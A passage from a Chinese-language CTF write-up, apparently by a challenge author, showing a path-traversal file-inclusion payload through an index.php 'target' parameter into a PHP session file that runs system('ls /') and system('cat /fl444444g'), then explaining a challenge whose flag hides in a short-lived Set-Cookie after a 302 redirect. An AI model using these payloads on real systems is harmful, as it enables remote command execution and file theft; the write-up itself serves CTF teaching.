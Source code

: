 然后

```
index.php?target=db_sql.php%3f/../../../../../../../../var/lib/php/sessions/sess_(你的cookie)&1=system('ls /');
```

![ls](img/php_4.png)

```
index.php?target=db_sql.php%3f/../../../../../../../../var/lib/php/sessions/sess_(你的cookie)&1=system('cat /fl444444g');
```

![flag](img/php_3.png)
这道题到此为止~

## 来了老弟

这道题一开始是没人做出来的，但只有 80 分的题嘛，能难倒那里去呢？
这里使用第二个地址（俩地址一样）
给的地址只是 `http://47.96.138.65:45787/didi`

进去之后就一个腰子姐和 PDD，但是你们仔细观察 UR 里的变化了嘛？

你输入的是 `http://47.96.138.65:45787/didi`
进去变成了 `http://47.96.138.65:45787/didi/secret.php`

apache 默认的入口文件是 index.php 他却是出现的 secret.php，这不是有问题嘛

F12 一下看到 index.php 被 302 跳转了，并且 flag 就在下面的 Set-Cookie 中，这里我设置了 cookie 生效时间为 0.01 秒，且只容许对 index.php 生效，所以在其他网页里是看不到的
